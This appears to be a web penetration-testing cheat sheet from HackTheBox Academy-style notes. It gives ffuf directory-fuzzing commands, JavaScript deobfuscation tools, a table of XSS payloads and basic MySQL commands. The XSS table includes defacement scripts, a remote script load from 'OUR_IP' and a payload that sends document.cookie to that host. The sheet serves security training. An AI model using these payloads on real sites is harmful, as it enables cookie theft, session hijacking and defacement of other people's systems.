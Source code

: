 #### Crawling

| Resource/Command                                                                                                                                     | Description                                                                   |
| ---------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
| ZAP                                                                                                                                                  | https://www.zaproxy.org/                                                      |
| `ffuf -recursion -recursion-depth 1 -u http://192.168.10.10/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt` | Discovering files and folders that cannot be spotted by browsing the website. |
| `ffuf -w ./folders.txt:FOLDERS,./wordlist.txt:WORDLIST,./extensions.txt:EXTENSIONS -u http://www.target.domain/FOLDERS/WORDLISTEXTENSIONS`           | Mutated bruteforcing against the target web server.                           |

## Javascript deobfuscation

| Websites            |
| ------------------- |
| JS Console Prettier |
| Beautifier          |
| JSNice              |

## Cross-site scripting (XSS)

| Code                                                                                          | Description                   |
| --------------------------------------------------------------------------------------------- | ----------------------------- |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload             |
| `<plaintext>`                                                                                 | Basic XSS Payload             |
| `<script>print()</script>`                                                                    | Basic XSS Payload             |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload        |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title          |
| `<script>document.getElementsByTagName('body')\[0].innerHTML = 'text'</script>`               | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element   |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us     |

## SQL injection

| Command                                                                                                                                    | Description                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------- |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p`                                                                                         | login to mysql database                                  |
| `SHOW DATABASES`                                                                                                                           | List available databases                                 |
| `USE users`                                                                                                                                | Switch to database                                       |
| `CREATE TABLE logins (id INT, ...)`                                                                                                        | Add a new table                                          |
| `SHOW TABLES`                                                                                                                              | List available tables in current database                |
| `DESCRIBE logins`                                                                                                                          | Show table properties and columns                        |
| `INSERT INTO table_name VALUES (value_1,..)`                                                                                               | Add values to table                                      |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)`                                                                          | Add values to specific columns in a table                |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>`                                                                           | Update table values                                      |